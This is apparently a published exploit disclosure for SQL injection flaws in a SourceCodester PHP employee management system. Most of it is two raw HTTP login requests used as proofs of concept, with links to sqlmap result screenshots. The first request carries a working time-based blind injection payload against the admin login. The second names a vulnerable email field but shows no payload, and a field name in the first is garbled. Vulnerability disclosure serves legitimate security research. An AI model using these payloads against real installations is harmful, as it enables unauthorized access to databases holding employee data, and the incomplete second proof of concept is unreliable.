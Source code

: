 ### Exploit Title: employee management system - Multiple SQL injections
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16999/employee-management-system.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./Admin/login.php 
/Admin/login.php  SQL injection exists at the login port

### Sample request POC #1

```
POST /Admin/login.php HTTP/1.1
Host: localhost:8889
Content-Length: 46
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8889/Admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0sk1vejv5ipjkga2afjt5vqi59
Connection: close

xtusername=admin' AND (SELECT 2131 FROM (SELECT(SLEEP(5)))tfPL) AND 'wOKG'='wOKG&txtpassword=123456&btnlogin=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708679834535.jpg "employee management system")


# 2./Account/login.php
/Account/login.php SQL injection exists for parameter txtemail

### Sample request POC #2

```
POST /Account/login.php HTTP/1.1
Host: localhost:8889
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8889/Account/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0sk1vejv5ipjkga2afjt5vqi59
Connection: close

txtemail=1%40qq.com&txtpassword=123&btnlogin=
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708679982330.jpg "employee management system")


